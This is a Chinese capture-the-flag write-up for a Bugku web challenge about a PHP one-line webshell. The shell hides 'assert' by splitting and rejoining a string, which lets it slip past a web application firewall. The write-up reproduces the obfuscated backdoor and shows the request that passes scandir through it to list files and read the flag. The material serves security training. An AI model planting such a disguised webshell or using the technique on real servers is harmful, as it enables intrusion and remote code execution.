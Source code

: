 # 过狗一句话



> ## 过狗一句话
>
> ### 100
>
> 
>
> <http://123.206.87.240:8010/>
>
> 送给大家一个过狗一句话
> <?php $poc="a#s#s#e#r#t"; $poc_1=explode("#",$poc); $poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; $poc_2($_GET['s']) ?>



## 1.代码审计

访问网站发现无内容

开始分析所给的代码

```php
<?php 
$poc = "a#s#s#e#r#t";
$poc_1 = explode("#", $poc);
$poc_2 = $poc_1[0] . $poc_1[1] . $poc_1[2] . $poc_1[3] . $poc_1[4] . $poc_1[5];
$poc_2($_GET['s'])
?>
```

代码审计发现`$poc_2($_GET['s'])` 可能存在代码执行漏洞，或者后门

## 2.构造漏洞

1. 使用菜刀进行连接，发现没用

2. > php中读取目录下文件的方法：
   >
   > 最简单的是print_r(scandir($dir))，还可以利用print_r(glob("*.*"))
   >
   > scandir()   //作用能扫描文件夹下的目录和文件，返回值为所有文件名组成的一个数组
   >
   > show_source()  //显示文件源码
   >
   > highlight_file()   //和show_source()函数是一个意思

3. 构造代码 `http://123.206.87.240:8010/index.php?s=print_r(scandir(%27./%27))

```
Array ( [0] => . [1] => .. [2] => c.php [3] => flag_sm1skla1.txt [4] => index.php [5] => info.php [6] => test3 [7] => zaq.php [8] => zzz.php [9] => zzz1.php )
```

4. 发现关键字 `flag_sm1skla1.txt`

[网站](http://123.206.87.240:8010/flag_sm1skla1.txt)进行访问，找到flag 

~~~
BUGKU{bugku_web_009801_a}
~~~